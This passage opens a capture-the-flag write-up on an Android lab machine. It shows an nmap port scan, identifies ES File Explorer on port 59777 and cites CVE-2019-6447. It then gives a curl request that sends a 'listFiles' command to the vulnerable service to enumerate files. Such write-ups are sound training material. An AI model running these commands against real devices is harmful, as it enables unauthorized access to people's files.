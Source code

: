 
And i found only two open port:

- *2222*
- *5555*


On port 2222 there is a ssh server(SSH-2.0-SSH Server - Banana Studio) and after google-fu found that port [5555](https://dev.to/exadra37/android-devices-being-shipped-with-tcp-port-5555-enabled-1ig5) is the adb(Android Debug Bridge) port and cannot be accessed.

So i checked all port

`nmap -p- -T4 10.10.10.247`

<img src="./img/nmap2.png"  width="650"/>

and found that the port *59777* is open and related to *ES File Explorer*.

# User

There is this [article](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566) that explain the vulnerability and how to exploit.

So i start to gather device info

<img src="./img/deviceInfo.png" width="650"/>

and search some interesting file on **root** 

`curl -H "Content-Type: application/json" --request POST --data "{"command":"listFiles"}" http://10.10.10.247:59777`
